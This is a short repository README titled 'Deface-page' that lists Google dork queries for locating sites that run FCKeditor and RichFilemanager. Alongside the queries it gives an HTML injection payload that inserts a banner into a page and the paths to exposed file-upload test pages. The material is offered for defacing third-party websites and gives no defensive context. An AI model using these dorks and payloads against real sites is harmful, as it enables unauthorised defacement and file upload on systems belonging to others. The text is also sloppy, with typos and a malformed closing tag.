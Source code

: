# Deface-page


Dork : 

notice: you google dork that direcotry :)

# Fckeditor

inurl:"/showcatrows.php?CategoryID="

exploit : "><marquee><h1>Your text</h1></mmarque>

inurl:"frame=product_detail"

exploit :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html

target.com/fckeditor/editor/filemanager/browser/default/connectors/test.html

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/

